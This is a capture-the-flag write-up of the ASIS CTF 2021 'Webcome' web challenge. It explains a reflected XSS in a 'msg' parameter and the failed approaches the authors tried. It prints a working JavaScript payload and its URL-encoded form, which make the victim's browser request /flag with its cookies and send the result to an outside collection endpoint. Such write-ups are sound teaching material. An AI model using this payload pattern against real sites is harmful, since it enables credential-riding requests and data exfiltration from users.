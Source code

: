 # Webcome

## Description  
Welcome! I made a [website](http://65.21.255.24:5000/).

Download the source code from
[here](https://asisctf.com/tasks/welcome_697082013f8f7b6f0ed025f77272fc65082eb3dc.txz).

## Writeup

In this challenge, the goal is to visit `/flag` route with a  
secret cookie after solving a captcha. The website also has a `/report` path,
which you can make the server visit a website in the backend. Analyzing the
code, we encountered some interesting parts in the homepage code:

```javascript  
app.get('/',(req,res)=>{  
	var msg = req.query.msg  
	if(!msg) msg = `Yo you want the flag? solve the captcha and click submit.\\nbtw you can't have the flag if you don't have the secret cookie!`  
	msg = msg.toString().toLowerCase().replace(/\'/g,'\\\'').replace('/script','\\/script')  
	res.send(indexHtml.replace('$MSG$',msg))  
})  
```  
In case a query parameter exists, after some naive sanitization, it is
replaced in place of `$MSG$` in the `index.html` file:  
```html  
<script>  
   msg.innerText = '$MSG$';  
</script>  
```  
So our initial guess is to perform some XSS attack.

### Failed Attempts  
1. First, we tried to somehow gain access to the secret cookie, which is set with the following code:  
```javascript  
await page.setCookie({  
		name: 'secret_token',  
		value: secretToken,  
		domain: challDomain,  
		httpOnly: true,  
		secret: false,  
		sameSite: 'Lax'  
	})  
```  
But the security niceties are well observed, and it seems like it is not
possible to get the cookie maliciously.

Especially, `httpOnly` prevents JavaScript from accessing this token, and
hence, we cannot use simple `document.cookie` XSS.

1. We encountered this line in the code:  
```javascript  
app.use(bodyParser.urlencoded({ extended: true }));  
```  
That simply allows the user to pass advanced formatted queries, which may help
bypass some security measurements if not applied cautiously. But we could not
get much use of it. (We were thinking of ways to somehow bypass `msg` query
sanitizations, or even manipulate the captcha verification process by crafting
a special value for `g-recaptcha-response`, which gets passed to the `/flag`
path is used to authenticate the solved captcha).

### Solution  
Our solution was to craft a specific url that contains a script which makes
the backend browser (that has the secret cookie) to visit the `/flag` path and
sending the flag to our endpoint API, but first we had to bypass the captcha.

#### Bypassing ReCaptcha  
We first tried to reconstruct the captcha on our end by getting its required
parameters from the backend server. After some investigation it turned out to
be too advanced so we dumped the idea.

Our final workaround was to solve a captcha on our end and capture its
`g-recaptcha-response` before reaching the server and send it to our script,
hoping it would work, which it turned out to do :))

The script that we used was the following:  
```javascript  
headers = {method: "GET"};  
let data = "g-recaptcha-response=";  
fetch(url = `https://larmol.free.beeceptor.com/`, headers =
headers).then(async response => {  
   let t = await response.text();  
   data = data.concat(t);  
   headers = {  
       method: "POST",  
       body: data,  
       headers: {"Content-Type": "application/x-www-form-urlencoded"},  
       credentials: "include"  
   };  
   fetch(url = `http://65.21.255.24:5000/flag`, headers).then(async response
=> {  
       headers = {method: "GET"};  
       let t = await response.text();  
       fetch(url = `https://larmol.free.beeceptor.com/${t}`, headers)  
   });  
});  
```  
This script does the following steps:

1. Gets the `g-recaptcha-response` from an endpoint that we created, providing it with our solved captcha.  
2. Creates a request containing the `g-recaptcha-response` parameter and sends it to the `/flag` route, obtaining the flag.  
3. Sends the flag to our endpoint in the URL (we could have sent it way better, but we were too tired ^__^)

We needed to encode our script in the URL. Our final crafted URL was this:  
```  
http://65.21.255.24:5000/?msg=%5C';headers=%7Bmethod:%22GET%22%7D;let%20data%20=%20%22g-recaptcha-
response=%22;fetch(url=%60https://larmol.free.beeceptor.com/%60,%20headers=headers).then(async%20response%20=%3E%20%7Blet%20t=await%20response.text();data%20=%20data.concat(t);headers%20=%20%7Bmethod:%22POST%22,body:%20data,headers:%20%7B%22Content-
Type%22:%20%22application/x-www-form-
urlencoded%22%7D,credentials:%20%22include%22%7D;fetch(url=%60http://65.21.255.24:5000/flag%60,%20headers).then(async%20response%20=%3E%20%7Bheaders=%7Bmethod:%22GET%22%7D;let%20t%20=%20await%20response.text();fetch(url=%60https://larmol.free.beeceptor.com/$%7Bt%7D%60,%20headers)%7D);%7D);//  
```

We had to add `\\';` and `//` to the beginning and end of our query,
respectively, to escape from the naive filtering mentioned and get our script
out of the `'$MSG$'` quotes to get it running.

Submitting the URL, we get the flag on our endpoint:  
```  
ASIS{welcomeeeeee-to-asisctf-and-merry-christmas}  
```  

Original writeup (https://github.com/titansarus/ASIS-CTF-
Final-2021/tree/main/Webcome).